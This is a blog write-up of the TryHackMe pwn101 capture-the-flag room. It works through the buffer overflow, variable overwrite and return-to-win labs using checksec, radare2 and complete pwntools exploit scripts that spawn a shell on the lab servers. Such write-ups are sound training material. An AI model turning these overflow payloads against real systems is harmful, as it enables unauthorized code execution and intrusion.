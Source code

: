 ```yaml
---
title: "Binary Exploitation"
date:  2023-011-08 15:04:23
categories: [Reverse Engeering]
tags: [Reverse Engeering]
---
```


**Pwn101 Tryhackme**

This is about binary exploitation and reverse engineering on a tryhackme machine pwn101. There are 10 labs for 10 different kinds of binary vulnerabilities.

- Buffer overflow
- Modify the variable's value
- Return to win
- Return to shellcode
- Integer Overflow
- Format string exploit
- Bypassing mitigations
- GOT overwrite
- Return to PLT
- Playing with ROP

**pwn101**

So let's start with pwn 101 it has a downloadable file pwn101.pwn101, And it is about buffer overflow.
First `checksec` a binary to see what mitigations is provided with it,

![pwn101](https://prabinsigdel.com.np/images/pwn101_1.jpg)

You can see there is no any stack canary available to protect from buffer overflow, so run the binary and provide a large no of inputs other than it expected. If you don't know what stack canary is [click here](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/).

![pwn101](https://prabinsigdel.com.np/images/pwn101_2.jpg)

![pwn101](https://prabinsigdel.com.np/images/pwn101_3.jpg)

OK we successfully overflowed the binary function gets which is vulnerable to buffer overflow and jump to `/bin/sh`. So to get flag we have to test on remote server.The exploit written in python with help of pwntools.

You can check others exploits on my github repo [here](https://github.com/0xpr4bin/pwn101).

```
#!/usr/bin/env python3

from pwn import *
binary=context.binary=ELF("./pwn101.pwn101")
context.log_level="critical"
payload=b"A"* 0x40 + b"A"*0x4 + b"B"*0x8
p=remote("10.10.86.157",9001)
#p=process()
p.sendline(payload)
p.recv()
p.interactive()
```

Run the python script `./exploit101.py` and we got the flag on the remote server.

![pwn101](https://prabinsigdel.com.np/images/pwn101_4.jpg)

**pwn102**

Ok as usual lets start with the checksec using command.

`checksec -file=pwn102.pwn102`

![pwn102](https://prabinsigdel.com.np/images/pwn102_1.jpg)

Also there is no stack canary present, and it is vulnerable to buffer overflow
Lets debug this binary on radare2,

`r2 -d -A pwn102.pwn102`

![pwn102](https://prabinsigdel.com.np/images/pwn102_2.jpg)

The `scanf` function is taking values in `@rbp-0x70` without any size validation so we can overflow the buffer but we need to modify two variables `@rbp-0x4` and `@rbp-0x8` with`0xc0d3`and `0xc0ff33` respectively because these are set on the stack above buff4r.

![pwn102](https://prabinsigdel.com.np/images/pwn102_3.jpg)

After that we can get to call `/bin/sh` and spawn a shell.

![pwn102](https://prabinsigdel.com.np/images/pwn102_4.jpg)

Lets write a script to execute on remote server on port 9002.

```
#!/usr/bin/env python3

from pwn import *
context.binary=binary=ELF("./pwn102.pwn102")
context.log_level="critical"
payload = b"A"*104
payload+= p32(0xc0d3)
payload+= p32(0xc0ff33)
#p=process()
p=remote("10.10.103.79",9002)
p.sendline(payload)
p.interactive()
```

Finally we got the flag

![pwn102](https://prabinsigdel.com.np/images/pwn102_5.jpg)

**pwn103**

Ok This is about `re2win`, it is basically overwriting the instruction pointer to return to the desired function.
lets start with `checksec`.

![pwn103](https://prabinsigdel.com.np/images/pwn103_1.jpg)

There is no stack canary and PIE is disabled, meaning we can overflow the buffer and the address of the function won't change between execution `(PIE disabled)`.

lets run the binary first and see.

`./pwn103.pwn103`

![pwn103](https://prabinsigdel.com.np/images/pwn103_2.jpg)

It's asking for options and case 3 is vulnerable to buffer overflow, we can send as many bytes we want because it is using `scanf()` function that is not checking buffer size limitations as you can see below.

![pwn103](https://prabinsigdel.com.np/images/pwn103_3.jpg)

So as mentioned earlier `PIE` is disabled so address won't change on execution.We can get win() function and this time it is admins_only() which will spawn a /bin/sh shell. So we will get admins_only address `(sym.admins_only)` and overwrite the `RIP` to return the `general()` function to
 `admins_only()`.

 ![pwn103](https://prabinsigdel.com.np/images/pwn103_4.jpg)

 Lets write a script to get the flag on remote server on port 9003.

 ```
 #!/usr/bin/env python3

from pwn import *
context.binary=binary=ELF("./pwn103.pwn103")
context.log_level="critical"

#p=process()
p=remote("10.10.114.45",9003)

#get the win() function address
admins_only=p64(binary.symbols.admins_only)

#To overcome stack alignement we have to put ret gadgets
ret_address=p64(0x00401377)

#We overwrite the buffer as well as 0x20 bytes until reach rbp and overwrite rip with win() adress
payload=b"A"*0x20 + b"B"*0x8 + ret_address + admins_only
#To choose vulnerable option

p.sendline(b"3")
p.sendline(payload)
p.interactive()
 ```

 In the above exploit we are first sending `b"3"` bytes to choose option general, then sending bytes of `0x20` to overwrite the buffer until we reach to the RBP and `0x8` bytes to overwrite RBP itself and `ret_address` for stack alignement as well as admins_only adress to overwrite the RIP to call win() function `(admins_only)`.

 Run the script and get the flag.

 `Ppython exploit103.py`


![pwn103](https://prabinsigdel.com.np/images/pwn103_5.jpg)